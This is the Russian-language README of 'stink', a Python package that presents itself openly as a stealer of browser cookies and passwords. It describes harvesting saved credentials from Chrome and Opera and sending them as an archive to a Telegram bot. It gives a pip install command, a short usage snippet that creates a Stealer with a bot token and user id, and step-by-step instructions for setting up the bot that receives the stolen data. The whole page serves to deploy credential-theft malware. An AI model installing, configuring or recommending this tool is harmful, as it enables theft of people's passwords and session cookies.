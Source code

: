 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду `/newbot`.
<p align="left">
  <a href="">
    <img src="docs/1.png" width="400px" style="display: inline-block;">
  </a>
</p>
3. Прописываем название бота с прикладкой `_bot` в конце.
<p align="left">
  <a href="">
    <img src="docs/2.png" width="400px" style="display: inline-block;">
  </a>
</p>
4. Прописываем команду `/token`, затем название бота с прикладкой `@` в начале.
<p align="left">
  <a href="">
    <img src="docs/3.png" width="400px" style="display: inline-block;">
  </a>
</p>
5. Полученный токен вставляем в поле `"YOUR_TOKEN"` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду `/start`.
<p align="left">
  <a href="">
    <img src="docs/4.png" width="400px" style="display: inline-block;">
  </a>
</p>
4. Полученный айди вставляем в поле `YOUR_ID` в скрипте.
